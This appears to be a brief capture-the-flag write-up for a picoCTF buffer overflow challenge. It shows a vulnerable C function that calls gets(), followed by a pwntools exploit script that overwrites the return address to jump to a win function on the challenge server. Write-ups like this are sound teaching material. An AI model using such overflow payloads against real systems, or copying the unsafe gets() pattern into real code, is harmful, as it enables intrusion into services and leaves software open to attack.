 # Description

Control the return address

```c
// vulnerable function
void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```
We can just easily overwrite the eip to execute the function function win

```python
from pwn import *

p = process('./buffer_overflow1')
r = remote('saturn.picoctf.net', 65160)
r.recvuntil('Please enter your string:')

payload = cyclic(44)
payload += p32(0x080491f6)

r.sendline(payload)
print r.recvall()
```
